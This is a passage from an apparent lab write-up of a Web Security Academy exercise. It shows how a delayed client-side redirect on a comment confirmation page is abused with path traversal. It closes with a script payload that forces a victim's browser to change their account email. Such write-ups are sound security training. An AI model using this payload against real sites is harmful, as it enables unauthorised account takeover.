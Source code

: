 This is a comment confirmation request.

From the response it is clear that the redirectOnConfirmation function waits for 3 seconds after being called, then retrieves the postId from the current page's URL, constructs a new URL using the provided blogPath and the postId, and finally redirects the browser to this new URL. This is typically used to give users a moment to see a confirmation message or complete an action before being redirected to the specified blog post.

**Step 4:**

Now we try to use this exploit

`/post/comment/confirmation?postId=1/../../my-account`

And see whether we are redirectred to my account or not

<img src="images/image43.png" alt="third" width="800">

So I was redirected after three second.

Now we add this script to exploit.
```
<script>

    document.location = "[https://0a880030044e22bb80ecc6a4007f0026.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned1%40web-security-academy.net%26submit=1](https://0a880030044e22bb80ecc6a4007f0026.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned1%40web-security-academy.net%26submit=1)";

</script>
```

<img src="images/image45.png" alt="third" width="800">
